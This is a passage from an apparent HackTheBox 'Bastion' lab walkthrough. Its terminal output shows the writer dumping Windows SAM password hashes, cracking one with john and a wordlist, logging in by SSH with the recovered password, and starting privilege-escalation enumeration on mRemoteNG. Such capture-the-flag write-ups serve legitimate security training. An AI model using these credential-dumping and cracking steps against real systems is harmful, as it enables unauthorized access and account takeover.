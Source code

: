 ```
┌──(Hades㉿10.10.14.5)-[0.9:28.9]~/walkthrough/hackthebox/bastion
└─$ samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
                                                                                                                                                                            
┌──(Hades㉿10.10.14.5)-[0.9:28.9]~/walkthrough/hackthebox/bastion
└─$ samdump2 SYSTEM SAM > hash
```

Using john with format NT and rockyou.txt directory to crack file hash. 

```
┌──(Hades㉿10.10.14.5)-[0.9:29.0]~/walkthrough/hackthebox/bastion
└─$ john --format=NT --wordlist=/home/kali/directory/rockyou.txt hash
<snip>
bureaulampje     (L4mpje)
<snip>
Session completed
```

Password creacked, I got the password: `bureaulampje`. Based on the info gathering, the system openning port 22, allow ssh to server. Let's using cracked credential and access to Bastion.

```
┌──(Hades㉿10.10.14.5)-[0.9:29.0]~/walkthrough/hackthebox/bastion
└─$ ssh L4mpje@10.10.10.134               
L4mpje@10.10.10.134's password: 
<snip>
Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                            

l4mpje@BASTION C:\Users\L4mpje>whoami                                                                                           
bastion\l4mpje
```

## Privilege Escalation

### Crack mRemoteNG Creadential

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/bastion)

After enum program installed in the server, I saw folder `mRemoteNG` in Program Files (x86).

```
l4mpje@BASTION C:\Program Files (x86)>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Program Files (x86)

<snip>
22-02-2019  15:01    <DIR>          mRemoteNG
<snip>
               0 File(s)              0 bytes
              14 Dir(s)  11.296.088.064 bytes free
```
